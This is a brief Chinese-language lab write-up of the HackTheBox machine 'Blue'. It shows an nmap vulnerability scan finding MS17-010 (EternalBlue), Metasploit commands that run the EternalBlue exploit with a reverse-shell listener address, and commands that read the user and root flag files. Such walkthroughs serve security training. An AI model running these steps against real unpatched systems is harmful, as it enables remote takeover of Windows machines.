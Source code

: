 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Blue"
linktitle: "Blue"
date: 2022-07-02T10:35:40+08:00
type: book
summary: ""
test: 
---
```



namp

```bash
sudo nmap -T4 -p- -sV --script vuln -vv 10.10.10.40
```

![](image/image_pQZ-DR3u60.png)

nmap识别到存在永恒之蓝漏洞(ms17-010)

![](image/image_uopAst56aj.png)

msf

use auxiliary/scanner/smb/smb\_version

![](image/image_ABMwYFUDuo.png)

use exploit/windows/smb/ms17\_010\_eternalblue

```bash
set rhosts 10.10.10.40
set lhost 10.10.14.12

run

```

![](image/image_WibfFJfdFY.png)

![](image/image_diHKv15dWX.png)

flag

```bash
cd C:\Users | dir

type .\Administrator\Desktop\root.txt && type .\haris\Desktop\user.txt
```

![](image/image_cEkrJ8YZuQ.png)
